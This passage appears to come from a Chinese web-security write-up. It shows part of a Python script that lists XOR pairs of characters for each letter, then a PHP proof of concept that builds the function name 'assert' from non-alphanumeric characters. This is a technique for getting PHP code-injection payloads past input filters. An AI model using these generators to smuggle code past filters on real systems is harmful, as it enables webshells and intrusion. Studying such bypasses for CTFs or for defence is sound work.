 ```
        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122): 
            if i < 32 and j < 32: 
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
            elif i < 32 and j >=32: 
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
            elif i >= 32 and j < 32: 
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
            else: 
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number)) 
                results.append(temp) 
 
results.sort(key=lambda x:x[1], reverse=False) 
for low_case in string.ascii_lowercase: 
    for result in results: 
        if low_case in result: 
            print(result[0]) 
            
for upper_case in string.ascii_uppercase: 
    for result in results: 
        if upper_case in result: 
            print(result[0])
```

可以返回所有字母的异或组合。`python3 xxx.py > results.txt`

在贴上另一个大佬的poc(https://xz.aliyun.com/t/8107)

```
<?php
$shell = "assert";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo $result1;
echo "<br>";
```